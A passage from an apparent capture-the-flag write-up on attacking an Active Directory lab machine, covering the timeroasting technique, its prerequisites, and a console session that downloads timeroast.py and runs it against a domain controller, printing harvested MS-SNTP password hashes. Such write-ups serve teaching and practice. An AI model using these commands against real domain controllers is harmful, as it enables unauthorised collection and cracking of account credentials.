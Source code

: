 But the `mm.turner` user comes up in some shortest path searches, keep this in mind for later:

![](https://github.com/user-attachments/assets/55e61f44-d1c8-49e4-8e21-d3367e2ad312)

![](https://github.com/user-attachments/assets/8892f586-1e8d-4591-b728-b5d31c9e864e)

![](https://github.com/user-attachments/assets/992d3a1d-bf6b-47ad-a265-588cfdeb700c)

## 3. Getting access

### 3.1. Timeroasting

A technique called [timeroasting](https://medium.com/@offsecdeer/targeted-timeroasting-stealing-user-hashes-with-ntp-b75c1f71b9ac0) may work here

> Unauthenticated clients can take a list of RIDs and send MS-SNTP requests to a DC to collect MD5 digests calculated with domain computer hashes.
> 
> This makes timeroasting a viable method to identify and crack pre-created machine accounts and other weak computer passwords in a stealthier manner than by using dictionaries or tools like [pre2k](https://github.com/garrettfoster13/pre2k).

Ther are some requirements for timeroasting to work:

1. The target must be a computer account, and cannot be directly targeted at ordinary user accounts (unless "target Timeroasting" modifies the properties).
2. The target domain controller starts and responds to the NTP service with Microsoft SNTP Extended Authentication (MS-SNTP), and UDP port 123 is open.
3. The attacker can send unauthenticated MS-SNTP requests to the DC (no valid credentials are required).
4. The RID (relative identifier) of computer accounts in the domain can be enumerated.
5. (Optional) For "target Timeroasting", domain administrator privileges are required to temporarily modify the user account properties so that it is treated as a computer account.
6. The computer account passwords in the domain are not strongly protected (for example, weak passwords or not changed regularly).

Use the [timeroast.py](https://github.com/SecuraBV/Timeroast) script to dicover hashes:

```console
root@kali:~# curl -sLO https://github.com/SecuraBV/Timeroast/raw/refs/heads/main/timeroast.py

root@kali:~# python timeroast.py 10.10.11.75
1000:$sntp-ms$4b184895bcdac26bd3f6b3a2828053c2$1c0111e900000000000a7e024c4f434cec677c13281ee675e1b8428bffbfcd0aec682232dc582708ec682232dc584a43
1103:$sntp-ms$68afac2200adfe3932ef2cf535128328$1c0111e900000000000a7e024c4f434cec677c13283f1412e1b8428bffbfcd0aec68223374473471ec68223374474d9c
1104:$sntp-ms$8a79f64c17489cfdef6abde741677d05$1c0111e900000000000a7e024c4f434cec677c1329a807f1e1b8428bffbfcd0aec68223375b02348ec68223375b044d6
1105:$sntp-ms$ebfd6adc05f50eb9c4282ecd3b1c4bee$1c0111e900000000000a7e024c4f434cec677c132b01c0cae1b8428bffbfcd0aec6822337709ddcfec6822337709fdaf
1106:$sntp-ms$52b87937859eaa1487344fdab51f8b9a$1c0111e900000000000a7e024c4f434cec677c13283f1c75e1b8428bffbfcd0aec682233785fce9cec682233785feb22
1107:$sntp-ms$ea1eab18ecb64061f9a68e02328857dc$1c0111e900000000000a7e024c4f434cec677c1329a88acee1b8428bffbfcd0aec68223379c93cf5ec68223379c95b28
1118:$sntp-ms$f8c827e647464466b757f683c07bf547$1c0111e900000000000a7e024c4f434cec677c1329e93ef3e1b8428bffbfcd0aec68223389e92fd9ec68223389e94904
1119:$sntp-ms$e95abb61d469e5b222ba9a0b86c51f0a$1c0111e900000000000a7e024c4f434cec677c132b51f9c7e1b8428bffbfcd0aec6822338b51e5a5ec6822338b5203d8
1120:$sntp-ms$6b59da9b61a3fb4a00209a5b29a3f403$1c0111e900000000000a7e024c4f434cec677c132898af8ee1b8428bffbfcd0aec6822338cb12b86ec6822338cb1506f
1121:$sntp-ms$03d52cff33b5b2dadff43f36dce934f0$1c0111e900000000000a7e024c4f434cec677c1329ff822be1b8428bffbfcd0aec6822338e17f91bec6822338e18230c
1122:$sntp-ms$e61ff6e705a5eeda173c1bcdfa79823a$1c0111e900000000000a7e024c4f434cec677c132b60a633e1b8428bffbfcd0aec6822338f79207dec6822338f794566
```